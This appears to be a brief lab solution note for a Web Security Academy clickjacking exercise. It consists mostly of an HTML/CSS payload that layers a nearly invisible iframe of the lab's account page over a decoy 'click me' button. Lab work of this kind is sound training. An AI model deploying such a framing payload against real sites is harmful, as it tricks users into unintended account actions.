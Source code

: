 # [ClickJacking]: Lab: Basic clickjacking with CSRF token protection (1)

---

![Untitled](%5BClickJacking%5D%20Lab%20Basic%20clickjacking%20with%20CSRF%20to%200f6808c3595c481f9c3bce392ec418ee/Untitled.png)

```jsx
<style>
    iframe {
        position:relative;
        width: 700px;
        height: 500;
        opacity: 0.10001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 452px;
        left: 60px;
        z-index: 1;
    }
</style>
<div> <button> click me </button></div>

</div>
<iframe id="target_website" src="https://0a6d003b03f6ec5482f4c14e006c0079.web-security-academy.net/my-account">
</iframe>
```